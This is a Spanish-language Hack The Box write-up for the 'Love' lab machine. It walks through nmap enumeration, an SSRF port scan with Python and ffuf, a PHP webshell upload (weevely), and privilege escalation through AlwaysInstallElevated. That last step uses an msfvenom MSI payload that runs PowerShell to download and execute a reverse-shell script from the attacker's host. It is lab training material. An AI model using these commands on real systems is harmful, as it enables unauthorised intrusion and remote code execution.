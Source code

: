 ```yaml
---
layout: single
title: Love - Hack The Box
excerpt: "Love es una máquina sencilla que cuenta con una vulnerabilidad ssrf en la cual logramos extraer una contraseña, luego ingresamos al panel de administración del admin y logramos subir una webshell. Luego la escalada de privilegios es bastante fácil"
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-love/love_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - ssrf 
  - AllwaysInstallElevated
  - webshell
---
```

![](/assets/images/htb-writeup-love/love_logo.png)

Empezamos con love que es una máquina de calificación media, en la cual contiene una vulnerabilidad ssrf, gracias a cuya vulnerabilidad logramos extraer una contraseña que nos sirve para ingresar al panel de administración. Una vez dentro logramos insertar una webshell, una vez dentro de la máquina la elevación de privilegios consiste en la carga de un archivo msi malicioso.

## Enumeracion

Lanzamos un simple reconocimiento con nmap.
```ruby
 nmap -sCV -p80,135,139,443,445,3306,5000,5040,7680,49664,49665,49666,49667,49668,49669,49670 10.10.10.239 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 12:22 -03
Nmap scan report for 10.10.10.239
Host is up (0.24s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, LDAPBindReq, LDAPSearchReq, LPDString, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TerminalServerCookie: 
|_    Host '10.10.14.8' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=9/9%Time=631B5A4A%P=x86_64-pc-linux-gnu%r(HTT
SF:POptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPReq
SF:uest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqT
SF:CP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRequ
SF:estTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,49,"E\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCookie,4
SF:9,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,"E\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(FourOhFourRequest,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\
SF:x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x0
SF:1\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20conn
SF:ect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj\x0
SF:4Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\x20to
SF:\x20this\x20MariaDB\x20server")%r(NotesRPC,49,"E\0\0\x01\xffj\x04Host\x
SF:20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20thi
SF:s\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-09T15:47:01
|_  start_date: N/A
|_clock-skew: mean: 2h41m35s, deviation: 4h02m32s, median: 21m33s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-09T08:47:00-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.30 seconds
```

No vemos nada interesante en http://10.10.10.239/index.php ni como http ni como https. Por lo cual se me ocurre agregar el dominio sacado por nmap a nuestro /etc/hosts, y luego insertamos el dominio en nuestro navegador. Nos dirigimos a demo.php y vemos lo siguiente.

![](/assets/images/htb-writeup-love/ssrf.png)

Nos montamos un servidor web con php y probamos si nos interpreta el código php.

![](/assets/images/htb-writeup-love/interpreta-codigo-php.png)

Con lo visto anteriormente ya se me ocurre un ataque ssrf.

## Ssrf 

El ataque lo podemos hacer de dos formas, con un script en python o con ffuf.

```python
#!/usr/bin/python3
def ssrf():
    p = log.progress('Ssrf attack start.')
    p1=log.progress('Port')
    p2= log.progress("Port Open:")
    listport=""
    for port in range(1,65536):
        p1.status('%d/65536'%port)
        p2.status('%s'%listport)
        data_post={'file':"http://127.0.0.1:%d"%port,'read':'Scan file'}
        r = requests.post(main_url,data=data_post)
        if 4997 == len(r.text):
            pass
        else:
            port =str(port)
            listport+=port
if __name__ == '__main__':
    import requests
    from pwn import *
    main_url= "http://staging.love.htb/beta.php"
    ssrf()
```

```bash
ffuf -X POST -w port -u http://staging.love.htb/beta.php -d "file=http://127.0.0.1:FUZZ&read=Scan+file" -H "Content-Type: application/x-www-form-urlencoded" -c -t 50 -fw=1248

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://staging.love.htb/beta.php
 :: Wordlist         : FUZZ: port
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : file=http://127.0.0.1:FUZZ&read=Scan+file
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1248
________________________________________________

80                      [Status: 200, Size: 9385, Words: 1901, Lines: 337, Duration: 303ms]
443                     [Status: 200, Size: 5466, Words: 1296, Lines: 224, Duration: 248ms]
5000                    [Status: 200, Size: 9591, Words: 2385, Lines: 411, Duration: 249ms]
5985                    [Status: 200, Size: 5312, Words: 1266, Lines: 218, Duration: 246ms]
```
Ingresamos desde demo.php la siguiente url "http://127.0.0.1:5000" y vemos una password.

![](/assets/images/htb-writeup-love/credentials.png)

Vamos a la ruta http://10.10.10.239/admin e ingresamos dichas credenciales y logramos entrar.

- Le echamos un vistazo al panel de administración y notamos que podemos subir una “imagen”, probamos si nos deja subir un php y correcto nos deja. Procedemos a subir una webshell básica. 
- Luego para ver donde se guarda el archivo es simple, solamente aprietas ctrl+u(firefox) y buscas el nombre de tu archivo en el código html.

![](/assets/images/htb-writeup-love/whoami.png)

Si queremos tener un poco más de seguridad en nuestra web shell para que nadie más que nosotros pueda ejecutar comandos, procedemos a ser lo siguiente. Nos descargamos el repo de https://github.com/epinna/weevely3

```bash
cd weevely3/
python3 weevely.py generate '123#!123' cmd.php #Nos creamos una web shell.
python3 weevely.py http://10.10.10.239/images/cmd.php '123#!123' # Ingresamos a nuestra web shell.
```
![](/assets/images/htb-writeup-love/webshell.png)

## Elevacion de privilegios

Una vez dentro del sistema corremos el winpeas y encontramos esto.
![](/assets/images/htb-writeup-love/winpeas.png)

Creamos el paylaod.

```bash
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -f msi -o alwe.msi
```

Nos transferimos el alwe.msi a la máquina víctima y lo ejecutamos.

```bash
copy \\10.10.14.8\parrot\alwe.msi
msiexec /quiet /qn /i c:\windows\Temp\priv\alwe.msi
```
Logrado :D.


![](/assets/images/htb-writeup-love/root.png)
